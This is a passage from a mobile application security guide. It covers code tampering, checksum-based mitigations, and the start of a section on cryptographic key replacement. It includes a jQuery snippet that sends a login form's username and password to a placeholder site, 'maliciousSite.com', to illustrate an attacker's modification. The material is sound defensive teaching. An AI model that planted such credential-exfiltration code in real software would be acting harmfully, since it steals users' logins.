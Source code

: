 `   $.post("`<http://maliciousSite.com>`",`
`         { username: loginUsername, password: loginPassword },`
`         function(data) {`
`            alert("Response: " + data);`
`            }`
`         );`

In this code change, the adversary has modified the application’s
presentation layer to transmit the victim’s username and password to the
adversary’s third-party site maliciousSite.com. Further ideas for
modification include transmission of session cookies, remote control,
unauthorized code execution and privilege escalation.

### Technical Recommendation

To mitigate the risk that an adversary will run arbitrary JavaScript
within a mobile application, consider doing the following:

  - Perform a checksum of any external presentation-layer files that the
    application is dependent upon. This checksum should compare the
    checksum of the files at build-time to the values found at runtime.
    In the event that the checksums do not match, respond appropriately
    to the attack;



  - Perform additional random checksums in unrelated parts of the
    application to thwart the adversary’s attempt to establish a
    reliable crack;



  - Perform additional checksums on the original checksums to ensure
    that the adversary is unable to tamper with the original checksum;
    and



  - Ensure that the checksum code does not have a unique binary
    signature that an adversary can easily identify. In such a scenario,
    an adversary will be able to quickly identify and disable all
    checksum instances within the binary.

## Cryptographic Key Replacement

### Description

Applications use cryptographic keys to encrypt or decrypt sensitive data
residing in a local store or in memory. Attackers may be interested in
replacing keys to hijack the encryption process used by the application.

### Technical Explanation

Many applications perform cryptographic operations on data using
cryptographic keys. These operations and keys are kept private from
users. However, an adversary may perform dataflow analysis of an
application in order to identify a particular key in use. In the example
code below, the organization uses a hardcoded key that an adversary can
find and replace within a data security control implemented in
Objective-C:

